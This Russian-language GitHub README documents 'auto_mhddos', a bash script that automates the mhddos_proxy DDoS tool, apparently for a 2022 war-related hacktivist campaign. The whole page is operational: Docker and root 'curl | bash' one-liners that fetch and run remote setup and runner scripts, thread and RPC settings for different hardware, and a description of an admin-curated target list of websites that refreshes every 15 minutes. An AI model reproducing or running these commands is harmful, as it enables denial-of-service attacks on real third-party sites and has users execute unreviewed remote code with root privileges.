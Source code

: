 ### ⭕️ Оперативный штаб Жнецов
![photo_2022-03-17_23-39-03](https://user-images.githubusercontent.com/41838573/158963538-944690c4-83ea-4934-9a29-6eb8f1e61f3a.jpg)


### auto_mhddos - bash скрипт автоматизирующий [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

## 🪖 Docker

```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest [num_of_copies] [threads] [rpc]
```

Все параметры опциональные, но если передаются, то строго в указанном порядке.

## 🪖 Bash

Перед запуском перейти под пользователя root. Для этого выполнить команду `sudo su`

### Установка.

Выполняется для начальной установки ПО, и периодического обновления. Не обязательно использовать каждый раз.


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/setup.sh | bash
```

Скрипт автоматически устанавливает git, python3, pip, mhddos_proxy, MHDDoS и все зависимости.

### Запуск.

Запускается одной командой (one-liner) в Linux і WSL (Windows Subsystem for Linux). Дальнейшее вмешательство со стороны пользователя не обязательно. 


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash
```

Команды для разного железа: 

-- Слабое (2 ядра 2 ГБ). Эти же параметры использутся по умолчанию, если запускать команду без аргументов.


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 1 500 100
```

-- Среднее: 


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 1000 200
```

-- Быстрое: 


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 2000 1000
```

Значение параметров на примере "bash -s -- 1 500 100":

1 - кол-во паралельно запущенных копий mhddos_proxy.

500 - количество потоков (threads). Параметр -t в mhddos_proxy.

100 - параметр --rpc в mhddos_proxy.

# ❕Описание
* Работает с курируемым админами единым списком [сайтов-целей](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База целей обновляется скриптом каждые 15 мин.

* Если целей много, то они выбираются из списка рандомно, поэтому не обязательно раскидывать пользователей по группам и распределять между ними нагрузку. Рандом все сделает самостоятельно.

* По умолчанию скрипт запускает 1 копию mhddos_proxy. Если запустить больше, то каждая копия будет независимо выбирает цель из списка, повторяться они не будут. Для этого в списке должны быть хотя бы две цели. Если будет мало целей, лишние копии программы просто не будут запускаться.

* Чтобы скрипт запускал больше копий mhddos_proxy, например 3, выполнить следующую команду `curl -s https://raw.githubusercontent.com/KarboDuck/karbo-wiki/master/runner.sh | bash -s -- 3` Если в списке всего две цели (две команды, начинающиеся на "runner.py"), то запускать 3 копии нет смысла. Вреда правда тоже не будет. Скрипт возьмет две цели, а третью копию программы просто не запустит.

Теоретически все это позволяет запустить скрипт на ПК/vps и всю остальную работу (обновление, перезапуск) он будет делать самостоятельно.

Рекомендуется использовать на Ubuntu 20.04. Вероятно будет работать на всех Ubuntu начиная с 18.04, а также всех производных Ubuntu и WSL2.

# ❌ Завершение скрипта

CTRL+C срабатывает не всегда. Поэтому можно:

* Просто закрыть окно с терминалом.

ИЛИ

* В другом терминале выполните команду "pkill python3", а потом в основном терминале нажмите CTRL + C.

### 🇺🇦🇺🇦🇺🇦 СЛАВА УКРАЇНІ 🇺🇦🇺🇦🇺🇦
### ПТН ХЛО 🤡
